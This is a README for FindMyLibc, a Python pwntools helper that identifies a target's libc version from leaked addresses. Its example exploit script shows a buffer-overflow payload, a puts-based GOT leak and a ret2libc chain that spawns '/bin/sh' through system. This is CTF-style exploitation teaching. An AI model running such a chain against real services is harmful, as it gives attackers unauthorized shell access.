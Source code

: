 # FindMyLibc
You're exploiting a binary, you've found an address leak, now you need the libc version  
and most importantly, the addresses of symbols like `system` and `str_bin_sh`.

This tool is the easiest to setup & use!  
**No heavy libc downloading, all remote, 1 simple function call.**

## Disclaimer
This was tested only on 32-bit binary, so it might not work properly on 64-bit binaries.  
Would be updated!

# Setup
```bash
pip install findmylibc
```  
Then use easily:  
```python
from findmylibc import *
...
matching_libc = find_libc(elf, leak_libc_address)
```    

# The `find_libc` parameters
## `elf`:
An object of the class `ELF` from `pwntools`, usually created by calling: 
```python
ELF('binary-name')
```

## `leak_libc_address`:
A function with signature of:  
```python
def my_leak_func(symbol_name_str): ... ->  return leaked_address_integer
```  
You must create this function,  
where the only parameter is of type **string** - the symbol name to leak,  
and the return value is the leaked address as **integer**.

There's another optional argument, see [stop_libs_amount](#The-stop_libs_amount-argument-(optional)).

# Example
Here's a simple example of an exploit script (see [`.example/example.py`](https://github.com/omrina/FindMyLibc/blob/main/example/example.py)).

### Setup your binary exploit script:
Whatever you need here...
```python
from pwn import *
from FindMyLibc import *

# Setup your binary
elf = ELF("./elf_name")
host = args.HOST or 'localhost'
port = int(args.PORT or 5555)
io = connect(host, port)
```

### Set up our "leak address" function:

```python
# Payload until right before the return address
payload = b'A' * 512 + b'BBBBCCCCDDDD'

# Example function that gets a symbol name and leaks its address from the binary
def leak_libc_address(symbol_name):
    libc_symbol_address = elf.got[symbol_name]
    puts = elf.symbols["puts"]

    io.recvline()
    io.send(payload + p32(puts) + p32(libc_symbol_address))
    received = io.recv()

    return u64(received.ljust(8, b"\x00"))
```
### Now the real deal:
```python
# call `find_libc`, it returns a list of matching libc candidates.
matching_libc = find_libc(elf, leak_libc_address)
chosen_libc = matching_libc[0]

# Each libc candidate comes with the attribute of `base_address`
print("libc base_address at: %s " % hex(chosen_libc['base_address']))

# Everything you need is probably in `syms`,
# a dictionary of ALL the libc symbols: {symbol: calculated_address}
binsh_address = chosen_libc['syms']['str_bin_sh']
system_address = chosen_libc['syms']['system']
print("/bin/sh at: %s" % hex(binsh_address))
print("system at: %s " % hex(system_address))
```

The output from `.example/example.py`:

![image](https://github.com/user-attachments/assets/dfd95d72-e202-4d59-9e44-fcfd4d01eccd)


### What is `chosen_lib`:

![image](https://github.com/user-attachments/assets/06ff78eb-f59b-4ba6-b199-079e0e091781)

### How to use the results:
You would probably need only `syms`, a dict of `{symbol_name_str: calcualted_address_integer}`,  
so continuing the example above, one might use:
```python
# Remember: chosen_libc['syms']['system'] AND chosen_libc['syms']['str_bin_sh']
shell_rop = p32(system_address) + b'EEEE' + p32(binsh_address)
io.send(payload + shell_rop)
io.interactive()
```

# How does it work?
The finder leaks the address of common symbols:  
```python
_common_symbols_to_leak = ['__libc_start_main', 'puts', 'printf', 'gets', 'read', 'write', 'send', 'recv']
```  
Then it makes reqeusts to the public `https://libc.rip/api/find`, with different combination of leaked symbols every time.  

E.g.- we send a request with `{'puts': 'leaked-address-of-puts', 'gets': 'leaked-address-of-gets'}`.  
A response would be a list of matching libc versions metadata (each item is like a part of `chosen_lib` seen earlier).

## The `stop_libs_amount` argument (optional)
The `find_libc` function has a `stop_libs_amount` argument with default of `3`,  
meaning- if we reach 3 matching libc versions, it's enough and we stop searching.  

You can change it if you'd like to:  
```python
matching_libc = find_libc(elf, leak_libc_address, stop_libs_amount=2)
```


